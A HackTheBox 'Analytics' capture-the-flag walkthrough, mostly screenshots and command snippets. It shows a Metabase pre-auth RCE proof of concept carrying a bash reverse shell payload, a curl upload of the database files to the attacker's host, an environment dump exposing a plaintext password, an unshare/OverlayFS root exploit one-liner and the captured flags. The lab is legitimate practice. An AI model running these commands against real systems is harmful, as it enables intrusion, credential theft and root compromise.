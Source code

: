 ![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/5873ab34-0ad9-41bf-81b6-c744cc7e022c)### 09-Feb-24-Fri

[Analytics](https://app.hackthebox.com/machines/Analytics)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/e2a3bdac-1f7f-4a53-b357-ea42e9f1a31b)

```
echo '10.129.229.224 analytical.htb' | sudo tee -a /etc/hosts
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/86e2cd59-9a57-480a-bf1b-7abbff2032ff)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/daa2364e-1a72-4467-875d-22feb686da1d)

http://data.analytical.htb/

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/f864da79-20a7-4dfd-9e90-5421a9f05a65)

```
echo '10.129.229.224 data.analytical.htb' | sudo tee -a /etc/hosts
```

http://data.analytical.htb/auth/login?redirect=%2F

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/e753c17b-94da-41d8-b668-e8d8a72811f0)

http://data.analytical.htb/auth/forgot_password

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/89732dad-9ac7-4c18-8a10-a9d258d7ab77)

*metabase exploit*

https://github.com/m3m0o/metabase-pre-auth-rce-poc

https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396

GET /api/session/properties

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/33fc4d6b-cf5f-40be-bc6c-36768cc97287)

```
249fa03d-fd94-4d5b-b94f-b4ebf3df681f
```

http://data.analytical.htb/api/session/properties

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b440e06b-80dc-421c-ae35-3d771fbea096)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/f5840215-c098-4365-ad00-41293f959f2d)

```
python3 metabase-pre-auth-rce-poc.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.16.20/1337 0>&1"
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/147b1243-ba63-4e5a-ab82-d47e1cca5903)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/f6317317-beca-4d89-a8ba-4a8603decf60)

```
curl -X POST http://10.10.16.20:8000/upload -F 'files=@metabase.db.mv.db' -F 'files=@metabase.db.trace.db'
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/da811da4-8622-40b8-8f67-127332bea47f)

```
python3 -m uploadserver
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/c6500035-1360-4169-8b65-58e38c192bbd)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/8fcb988d-075e-4929-83c1-5c855c1d6d99)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/986e0410-b903-4140-9faf-0a78bd551e64)

*Credits* - https://maddevs.io/writeups/hackthebox-analytics/ **Walkthrough/Writeup**

```
cat /proc/self/environ
```

SHELL=/bin/shMB_DB_PASS=HOSTNAME=d5d0efd9b524
LANGUAGE=en_US:enMB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/metabase.db
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=HOME=/home/metabase
LANG=en_US.UTF-8META_

USER=metalytics
META_PASS=An4lytics_ds20223#

MB_EMAIL_SMTP_PASSWORD=USER=metabaseSHLVL=4MB_DB_USER=FC_LANG=en-USLD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../libLC_CTYPE=en_US.UTF-8MB_LDAP_BIND_DN=LC_ALL=en_US.UTF-8MB_LDAP_PASSWORD=PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binMB_DB_CONNECTION_URI=JAVA_VERSION=jdk-11.0.19+7_=/bin/catOLDPWD=/

```
ssh metalytics@analytical.htb
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/266b4d81-b327-4fd2-acb7-d94e362a5f13)

```
3cc9cb4a53a439a1f4b2509cd087c8d8
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/d5f86b23-100d-46e8-9329-41a9cba0db49)

```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/dab990ff-1eb0-456c-88a2-51f488294019)

```
fc633b1a858073995e19951e50beadf4
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/6388f1a4-c2e6-4d01-b145-2cace850bdf4)
